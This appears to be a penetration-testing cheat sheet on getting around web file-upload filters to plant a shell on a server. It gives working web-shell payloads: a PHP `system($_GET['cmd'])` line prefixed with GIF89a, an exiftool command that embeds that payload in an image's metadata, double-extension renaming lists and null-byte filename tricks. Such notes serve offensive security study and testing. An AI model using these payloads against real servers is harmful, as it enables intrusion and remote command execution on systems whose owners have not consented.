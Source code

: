 # **File Upload bypass** #

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## **Rename Shell <a href="#rename-it" id="rename-it"></a>** ##

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php** phtml, .php, .php3, .php4, .php5, and .inc

**asp** asp, .aspx

**perl** .pl, .pm, .cgi, .lib

**jsp** .jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion** .cfm, .cfml, .cfc, .dbm

## **GIF89a; <a href="#gif89a" id="gif89a"></a>** ##

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;system($_GET['cmd']);//or you can insert your complete shell code?>
```

## **In image <a href="#in-image" id="in-image"></a>** ##

```
exiftool -Comment='"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg

## **Nullbyte <a href="#nullbyte" id="nullbyte"></a>** ##

```
filename.php%00
filename.php%00.png
filename.php%00.png%00.jpg
```

## **References** ##

- ​[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)​
